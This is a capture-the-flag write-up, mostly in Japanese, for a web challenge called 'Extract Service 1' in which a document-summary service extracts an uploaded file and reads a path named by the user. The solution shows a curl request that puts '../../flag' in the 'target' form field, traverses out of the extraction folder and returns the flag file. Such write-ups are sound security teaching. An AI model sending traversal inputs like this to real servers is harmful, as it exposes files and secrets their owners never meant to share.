

# Extract Service 1:Web:144pts
ドキュメントファイルの要約サービスをリリースしました！配布ファイルの`sample`フォルダにお試し用のドキュメントファイルがあるのでぜひ使ってください。  
サーバーの`/flag`ファイルには秘密の情報が書いてあるけど大丈夫だよね...? どんなHTTPリクエストが送信されるのか見てみよう！  
We have released a summary service for document files! Please feel free to use the sample document file in the "sample" folder of the distribution file for trial purposes.  
The secret information is written in the `/flag` file on the server, but it should be safe, right...? Let's see what kind of HTTP request is sent!  
[https://extract1-web.wanictf.org](https://extract1-web.wanictf.org/)  

[web-extract1.zip](web-extract1.zip)  

# Solution
URLにアクセスすると、docxファイルなどの要約を行ってくれるサービスのようだ。  
  
Choose file typeを`.docx`にしたまま、sample.pptxを送信すると以下のエラーがでる。  
```
Error : open /tmp/af0070a1-0563-425e-86ae-afceb60ba381/word/document.xml: no such file or directory
```
POSTリクエストを見ると、ファイルとは別に`target`として`word/document.xml`が送信されている。  
`word/document.xml`はdocxファイルの内容が書かれているファイルであるので、どこかでdocxを展開して読み取っていると予想する。  
エラーより展開後のパスはただの文字列連結が行われていそうなので、トラバーサルして`/flag`を読みだせばよい。  

```bash
$ ls
sample.docx  sample.pptx  sample.xlsx
$ curl -X POST https://extract1-web.wanictf.org/ -F file=@sample.docx -F 'target=../../flag'
<!DOCTYPE html>
~~~
  <section class="container px-5">
    <div class="mt-5">
      <p>FLAG{ex7r4c7_1s_br0k3n_by_b4d_p4r4m3t3rs}</p>
    </div>
  </section>
~~~
</html>
```
flagが読み取れた。  

## FLAG{ex7r4c7_1s_br0k3n_by_b4d_p4r4m3t3rs}